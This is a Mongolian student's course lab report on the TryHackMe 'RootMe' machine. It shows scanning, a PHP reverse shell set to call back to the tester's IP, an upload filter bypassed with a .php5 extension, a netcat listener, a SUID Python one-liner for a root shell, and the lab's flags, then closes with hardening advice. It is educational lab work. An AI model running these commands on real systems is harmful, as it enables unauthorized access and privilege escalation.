<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал /F.NSA342/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  RootMe (EASY)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – ROOTME

## УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **RootMe** виртуал машины аюулгүй байдлын түвшинг шалгаж, файл байршуулах хэсгийн буруу тохиргоо болон эрхийн алдааг илрүүлэх зорилгоор нэвтрэлтийн туршилт хийв. Nmap, Gobuster ашиглан вебийн далд замыг олж, файл байршуулах шүүлтүүрийг тойруулан PHP reverse shell байршуулж `www-data` эрхээр shell авсан бөгөөд SUID бит тохируулагдсан Python-оор root эрх авсан.

## NMAP ТАНДАН СУДАЛГАА

```bash
nmap -sC -sV 10.48.150.46
```

**Яагаад:** Зорилтот веб сервер ажиллаж байгаа эсэхийг болон бусад хандалтын үйлчилгээг тогтоох.  
**Үр дүн:** `22/tcp` OpenSSH 8.2p1; `80/tcp` Apache httpd 2.4.41. HTTP үйлчилгээ нь үндсэн шалгах чиглэл болсон.



## GOBUSTER-ЭЭР ДИРЕКТОРУУД ИЛРҮҮЛЭХ

```bash
gobuster dir -u http://10.48.150.46/ -w /usr/share/wordlists/dirb/common.txt
```

**Яагаад:** Нүүр хуудаснаас ил харагддаггүй админ/файл байршуулах зам байж болох тул wordlist ашиглан илрүүлсэн.  
**Options:** `dir` — директор enumeration; `-u` — URL; `-w` — wordlist.  
**Үр дүн:** `/panel` (301), `/uploads` (301), `/css` (301), `/js` (301), `/index.php` (200); `.htaccess`, `.htpasswd`, `.hta` (403) мөн харагдсан.



## PHP REVERSE SHELL БЭЛТГЭХ

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
nano shell.php
```

Зурагт PHP файлын дотор холболтын IP, порт дараах байдлаар тохируулсан байна:

```php
$ip = '192.168.177.233';
$port = 4444;
```

```bash
ip -4 addr show tun0
mv shell.php shell.php5
```

**Яагаад:** Лабораторийн хост гүйцэтгэх PHP скриптээс Kali руу буцах холболт хийхийн тулд VPN интерфэйсийн зөв IP, сонсох порт хэрэгтэй. `.php5` өргөтгөл ашигласнаар сул файл шүүлтүүрийг тойрч гарах боломжийг шалгасан.  
**Эмзэг байдал:** Сервер байршуулсан файлын өргөтгөл, агуулга болон гүйцэтгэх эрхийг хангалттай хязгаарлаагүй байх боломж.







## ФАЙЛ БАЙРШУУЛАХ

`http://10.48.150.46/panel/` замаас файл байршуулах форм олж, `shell.php5` файлыг сонгосон. Upload хийсний дараа **“O arquivo foi upado com sucesso!”** буюу файл амжилттай байршсан гэсэн мессеж гарсан.

**Яагаад:** Зөвшөөрөгдсөн лабораторийн орчинд байршуулах форм сервер талд аюултай файл нэвтрүүлж байгаа эсэхийг шалгах.







## REVERSE SHELL АВАХ

Kali Linux дээр listener ажиллуулсан:

```bash
nc -lvnp 4444
```

**Options:** `-l` сонсох; `-v` дэлгэрэнгүй; `-n` DNS lookup хийхгүй; `-p 4444` локал порт.  
**Үр дүн:** `10.48.150.46` хостоос `192.168.177.233:4444` рүү холболт орж ирсэн. `id` үр дүнд `uid=33(www-data)` харагдаж, вэб серверийн эрхээр shell авсныг баталсан. Байршуулсан файлын яг ямар URL-аар ажиллуулсныг зураг тусад нь нотлоогүй.





## USER FLAG БОЛОН SUID ХАЙЛТ

```bash
whoami
cat /var/www/user.txt
find / -type f -perm -4000 2>/dev/null
```

**Яагаад:** Эхний команд эрхийг баталгаажуулна; хоёр дахь нь лабораторийн user flag; гурав дахь нь SUID permission-тэй executable файлуудыг хайна. `2>/dev/null` permission алдааны мэдээллийг нууж, үр дүнг цэгцэлнэ.  
**Үр дүн:** `www-data`; user flag `THM{y0u_g0t_a_sh3ll}`. Зурагт `/usr/bin/python2.7` файлын SUID permission-ийн тэмдэглэл харагдана.



## SUID ЭРХЭЭР ROOT SHELL АВАХ

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh","sh","-p")'
whoami
id
cat /root/root.txt
```

**Яагаад:** SUID permission-тэй Python interpreter нь файл эзэмшигчийн effective эрхийг хадгалж shell ажиллуулах боломж өгч болзошгүй. `/bin/sh -p` нь privileged mode-г хадгалах зорилготой.  
**Үр дүн:** `whoami` → `root`; `id` → `uid=33(www-data) ... euid=0(root)`. **Үүнийг real UID root болсон гэж биш, effective UID 0 болсон** гэж зөв ойлгох шаардлагатай. Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`.



## ROOTME — ДҮГНЭЛТ БА ХАМГААЛАЛТЫН ЗӨВЛӨМЖ

RootMe машин дээр Nmap болон Gobuster ашиглаж веб сервер, upload формыг илрүүлсэн. PHP өргөтгөлийн шүүлтүүр сул байгааг ашиглан файл байршуулж, `www-data` эрхтэй reverse shell авсан. Улмаар SUID эрхтэй Python 2.7-аар effective root эрхтэй shell ажиллуулж хоёр flag-ийг уншсан. **RootMe лабораторийн туршилт амжилттай болсон.**

**Хамгаалалтын зөвлөмж:**
1. Файлыг зөвхөн whitelist өргөтгөлөөр биш, MIME төрөл болон агуулгаар давхар шалгах.
2. Байршуулсан файлуудыг web root-ийн гадна хадгалах; upload хавтаст PHP/скрипт гүйцэтгэлийг хаах.
3. Веб үйлчилгээний хэрэглэгчид хамгийн бага эрх олгох; upload файлын permission-ийг хязгаарлах.
4. `/usr/bin/python2.7` зэрэг interpreter-д SUID permission олгохгүй байх; SUID binary-д тогтмол аудит хийх.
5. PHP/Apache болон OS-ийн шинэчлэлт, лог мониторинг, egress traffic хяналтыг хэрэгжүүлэх.
